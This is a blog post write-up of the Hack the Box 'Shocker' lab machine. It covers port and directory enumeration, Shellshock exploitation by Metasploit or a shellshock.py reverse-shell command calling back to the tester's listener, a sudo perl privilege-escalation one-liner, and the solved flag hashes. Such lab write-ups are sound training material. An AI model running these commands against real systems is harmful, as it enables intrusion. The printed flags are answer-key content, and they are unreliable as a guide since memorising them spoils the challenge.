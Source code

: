```yaml
---
layout: post
status: publish
published: true
permalink: shocker
title: 'Shocker box on Hack the Box Write up'
author: Jean-Michel Frouin
author_login: jmfrouin
author_email: jm@frouin.me
author_url: http://frouin.me
date: '2020-04-10 09:45:49 +0100'
date_gmt: '2013-04-10 08:45:49 +0100'
categories:
- htb
- pentest
- unix
comments: []
---
```

# General infos

- OS: 	Linux
- Difficulty: 	Easy
- Points: 	20
- Release: 	30 Sep 2017
- IP: 	10.10.10.56

![MindMap](Shocker.png "Shocker")

## Enumeration

### Ports

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

### Web

- Dir found: / - 200
- Dir found: /cgi-bin/ - 403
- Dir found: /icons/ - 403
- File found: /cgi-bin/user.sh - 200
- Dir found: /icons/small/ - 403

## Exploitation

### Using MetaSploit

- multi/http/apache_mod_cgi_bash_env_exec
- TARGETURI : /cgi-bin/useer.sh

### Manual exploitation 

```
./shellshock.py payload=reverse rhost=10.10.10.56
lhost=10.10.14.36 lport=4444 pages=/cgi-bin/user.sh
```

## User Flag

### Location : /home/shelly/user.txt

```
2ec24e11320026d1e70ff3e16695b233
```

## Priv Esc

```
sudo /usr/bin/perl -e 'system("/bin/bash")'
```

## Root Flag

Location : /root/root.txt
 
```
52c2715605d70c7619030560dc1ca467
```
